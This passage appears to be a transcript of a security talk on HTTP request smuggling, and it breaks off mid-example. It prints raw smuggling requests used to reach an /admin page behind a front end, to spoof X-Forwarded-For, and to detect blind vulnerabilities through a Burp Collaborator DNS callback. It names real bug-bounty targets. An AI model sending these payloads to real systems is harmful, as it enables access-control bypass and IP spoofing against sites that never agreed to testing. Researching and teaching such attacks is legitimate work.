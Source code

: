 so by using request  smuggling their front end would first  think I was accessing the view of the  website and then when I sent to the  follow-up request:
```HTTP
POST / HTTP/1.1
Host: software-vendor.com
Content-Length: 200
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: software-vendor.com
X: XGET / HTTP/1.1
Host: software-vendor.com
```
it would once  again think I was accessing the vote of  the website, but the back-end would think  I was trying to hit that admin page, and  serve it up, so far so simple.

now lots of  front ends like to rewrite requests by  adding headers to them. one header  practically every system uses some  variation of, is X Forwearded For, which just  specifies the remote users IP. now if you  specify this header yourself directly, in  a normal request, any well configured  front-end will rewrite that header or  remove it entirely and so it won't work. but when you smuggle a request you  effectively bypass all the rewrite rules  used on the front end and thereby you  can spoof your IP, and make it look like  your request is coming from anywhere. using this technique I exploited a  particular security vendor and got an  incredible three hundred dollar bounty  ,whoo. so I'm not suggesting you're gonna  get rich quick using this particular  technique but it's worth knowing because  it does work on practically every target  and also there's a slightly less obvious  use for this technique
imagine you've  found a website where the time out based  detection technique works so you're  fairly sure its vulnerable but their  traffic volume is so high that you've  effectively got zero chance of ever  getting a poisoned response yourself,  what you've effectively got there is a  blind request smuggling vulnerability,  how can you prove that that system is  really vulnerable ? well one thing you can  try is send a request that looks  something like that but stick a unique  host name in the x-forwarded-for header.  if you get a DNS lookup for that host  name, that proves the orange data has  been interpreted as a second request by  the backend system and thereby proves  that it is vulnerable to  request smuggling.
~~~
POST / HTTP/1.1
Host: software-vendor.com
Content-Length: 200
Transfer-Encoding : chunked

0

GET / HTTP/1.1
Host: software-vendor.com
X-Forwarded-For: xyz.burpcollaborator.net
X: XGET / HTTP/1.1
Host: software-vendor.com
~~~

### Request reflection
IP spoofing is okay but  the really interesting behavior is going  to come from custom application specific  headers. but to exploit those we need to  know what they are,now on New Relic, I  was able to submit a login  request and I just shuffled the  parameters, so that the email address  parameter was last, 
```HTTP
POST / HTTP/1.1
Host: login.newrelic.com
Content-Length: 142
Transfer-Encoding: chunked
Transfer-Encoding: x


0
```